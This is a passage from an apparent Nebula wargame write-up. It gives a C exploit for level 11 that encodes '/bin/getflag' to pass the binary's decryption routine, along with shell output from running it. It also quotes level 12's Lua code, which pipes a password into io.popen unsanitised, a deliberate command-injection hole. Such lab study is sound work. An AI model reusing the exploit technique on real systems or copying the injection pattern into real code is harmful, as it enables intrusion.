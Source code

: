 
The second way is to use input with the length at least 1024. The decryption
routine is almost symmetric. However, in this step `key -= buffer[i];` we need
to substract from key the original value, so we XOR it with the key again.

{% codeblock lang:c exploit11.c %}
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {

    unsigned int key;
    int i, length = 1024;
    char buffer[1024] = {0}; 
    char cmd[] = "/bin/getflag";
    int  cmd_length = strlen(cmd);

    memcpy(buffer, cmd, cmd_length);

    key = length & 0xff;

    for (i = 0; i <= cmd_length; i++) {
        buffer[i] ^= key;
        key -= buffer[i] ^ key;
    }   

    fprintf(stdout, "Content-Length: 1024\n");
    fwrite(buffer, 1, length, stdout);

    return 0;
}
{% endcodeblock %}

{% codeblock %}
sh-4.2$ export TEMP=/tmp
sh-4.2$ ./exploit11 | /home/flag11/flag11 
blue = 1024, length = 1024, pink = 1024
getflag is executing on a non-flag account, this doesn't count
{% endcodeblock %}

## Level12
The code below should be backdoored:

{% codeblock lang:lua level12.lua%}
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 50001))

function hash(password)
  prog = io.popen("echo "..password.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end
